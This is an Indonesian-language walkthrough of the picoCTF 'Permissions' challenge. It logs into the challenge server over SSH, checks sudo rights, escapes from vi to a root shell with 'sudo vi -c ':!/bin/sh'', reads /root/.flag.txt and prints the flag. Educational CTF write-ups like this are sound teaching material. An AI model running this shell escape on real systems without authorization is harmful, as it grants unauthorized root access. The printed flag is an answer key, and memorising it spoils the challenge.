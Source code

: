 # Permissions
- Link: https://play.picoctf.org/practice/challenge/363?category=5&page=3

## Tantangan
Can you read files in the root file?
Additional details will be available after launching your challenge instance.

## Penyelesaian
- Tekan tombol **Launch Instance** untuk memulai tantangan



- Setelah instance berjalan, konek ke SSH server sesuai petunjuk soal. Jika diminta konfirmasi ketik yes lalu enter kemudian masukkan password yang tertera setelah Launch Instance
```sh
ssh -p 50429 picoplayer@saturn.picoctf.net
```


- Kita tidak dapat mengakses direktori root dengan user `picoplayer` sehingga kita perlu melakukan pengecekan akses sudo yang dimiliki user `picoplayer`
```sh
sudo -l
```

- Terlihat bahwa user `picoplayer` bisa mengakses aplikasi vi sehingga kita bisa melakukan privilage escalation dengan vi (referensi: https://gtfobins.github.io/gtfobins/vi/ )
```sh
sudo /usr/bin/vi -c ':!/bin/sh' /dev/null
```

- Kita berhasil masuk ke user root, sekarang kita file yang terdapat di direktori root
```sh
cd /root
ls -la
```

- Disini ditemukan file `.flag.txt` yang berisi flag, sekarang kita buka isi file tersebut
```sh
cat .flag.txt
```

- Flag
```sh
picoCTF{uS1ng_v1m_3dit0r_89e9cf1a}
```